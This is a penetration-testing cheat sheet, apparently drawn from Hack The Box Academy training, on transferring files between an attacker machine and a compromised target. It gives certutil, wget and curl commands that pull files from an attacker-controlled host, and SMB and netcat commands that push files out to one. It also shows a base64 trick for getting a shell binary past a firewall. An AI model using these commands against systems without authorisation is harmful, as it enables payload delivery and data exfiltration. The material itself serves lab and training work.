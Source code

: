 # Transfert file between target and attacking machines

## HTTP

### From attack machine to Target

#### Attacking machine

- In kali we can use python `python3 -m http.server 80`

#### Target machine

- On a win target machine you can access it directly with the browser: `http://IP-ATTACKING-MACHINE/FILE-TO-GET` or you can use certutil.exe `certutil.exe -urlcache http://IP-ATTACKING-MACHINE/FILE-TO-GET file-to-get`
- In a linux target machine you can use `wget http://IP-ATTACKING-MACHINE/FILE-TO-GET` or curl `curl -o FILE-TO-GET http://IP-ATTACKING-MACHINE/FILE-TO-GET`

#### Updog

- Another great tool to transfer is [updog](https://github.com/sc0tfree/updog), it goes both ways if you can access a browser :D :D :D
- `pip3 install updog` easy as this to install
- 

## FTP

### From attack machine to target

#### Attacking machine

- `python3 -m pyftpdlib -p 21 --write`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `get filename` to get the file

### From Target to attack

#### Attacking machine

- `python3 -m pyftpdlib -p 21 --write`

####  Target machine

- `ftp IP-OF-ATTACKING-MACHINE` we can then use `put filename` to send the file

## SMB

### From Target to attack machine

#### Attacking machine

- In kali we can use Impacket `python3 smbserver.py -smb2support sharename /path/folder`
- We can specify `-username user -password pass` if we need set up an authentication

#### Target machine

- In a win victim machine we just need to copy the file to the attacking machine: `copy  FiletoDownload \\IP-OFF-ATTACKING-MACHINE\SHARENAME`
- Sometimes on windows we will be asked to use a service that requires authentication so we can set this up with `net use \\<network-location>\<some-share> password /USER:username` after this we will be able to use the previous copy command

## Metasploit

### From attack machine to Target

There is an upload and download feature

## SSH (creds needed)

### From attack machine to Target (local to remote)

- In your kali or any linux `scp FILE-TO-SEND user@ip:/path/to/folder`

### From target to attack (remote to local)

- In your kali or any linux cmd `scp user@ip:/path/to/folder FILE-TO-GET`

### Note

- If you get this error `protocol error: filename does not match request`
- You will need to add `-T` in your command. Here is an example:
- `scp -T user@server:C:\\Path\\To\\file.txt dest-folder`

## Netcat

### From Target to attack machine

#### Target machine

- `nc -lvp PORT-NUMBER > FILE-TO-SEND

#### Attacking machine

- `nc VICTIM-IP PORT-NUMBER -w 3 < FILE` note: -w is for the time out in seconds

## Evade firewall

In some cases, we may not be able to transfer the file. For example, the remote host may have firewall protections that prevent us from downloading a file from our machine. In this type of situation, we can use a simple trick to base64 encode the file into base64 format, and then we can paste the base64 string on the remote server and decode it. For example, if we wanted to transfer a binary file called shell, we can base64 encode it as follows:  

- `base64 shell -w 0`

Now, we can copy this base64 string, go to the remote host, and use base64 -d to decode it, and pipe the output into a file:  

- `echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... <SNIP> ..lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell`

### Validate file

- `file shell`
- `md5sum shell` and compare the result in the attacking machine and target

*Source Hackthebox Academy*

## Resources

{% embed url="https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/" %} Transfer files (Post explotation) – CheatSheet - PABLO PLAZA MARTÍNEZ {% endembed %}
